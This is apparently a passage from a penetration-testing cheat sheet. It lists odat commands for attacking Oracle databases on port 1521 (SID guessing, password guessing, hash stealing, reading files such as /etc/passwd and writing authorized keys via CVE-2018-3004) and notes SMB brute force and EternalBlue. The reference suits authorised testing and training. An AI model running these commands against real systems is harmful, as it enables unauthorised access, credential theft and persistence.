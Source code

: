 * Brute force login
* Search exploit for vulnerable version
* If v1 is enabled - EternalBlue exploit (check with nmap -> smb-protocols)

## <mark style="color:yellow;">1521 - ORACLE DB (TNS protocol)</mark>

<details><summary>INTRODUCTION</summary></details>

```sh
# Oracle DB version
odat tnscmd -s <ip> --version

# Search valid SIDs (with default wordlist and bruteforce [default max-size 2 chars])
odat sidguesser -s <ip>

# Search valid SIDs with custom sids wordlist
odat sidguesser -s <ip> --sids-file sids.txt

# Search valid SNs (with default wordlist and bruteforce [default max-size 2 chars])
odat snguesser -s <ip>

# Search valid SNs with custom SNs wordlist
odat snguesser -s <ip> --service-name-file sn.txt
```

**Find user credentials**

* \[CVE-2012-3137] You need a valid SID and Oracle DB version is one of this (10.2.0.3, 10.2.0.4, 10.2.0.5, 11.1.0.7, 11.2.0.2, 11.2.0.3) you can obtain the session key and salt for arbitrary users.
* \[Guess password] You need SID or SN

<pre class="language-sh"><code class="lang-sh"><strong># Guess password with SID/SN using default odat credentials
</strong>odat passwordguesser -s &#x3C;ip> -d &#x3C;SID>
odat passwordguesser -s &#x3C;ip> -n &#x3C;SN>
</code></pre>

**Analyze database**

```sh
# enumerate database
odat search -s <ip> -d <SID> -p <port> -U <username> -P <password>  --basic-info
# open sql shell
odat search -s <ip> -d <SID> -p <port> -U <username> -P <password>  --sql-shell
# get hashed password when the account is not locked
odat passwordstealer -s <IP> -d <SID> -p <port> -U mobius -P <password> --get-passwords-not-locked
# read file (ex. ssh private key)
odat externaltable -s <IP> -d <SID> -p <port> -U mobius -P <password> --getFile /etc passwd passwd
# create file with cve-2018-3004 (ex. upload authorized key)
odat cve -s <IP> -d <SID> -p <port> -U mobius -P <password> --cve-2018-3004 /tmp/test "test"

# NOTE: there are many other things and techniques you can use with odat. Refer to the documentation
```
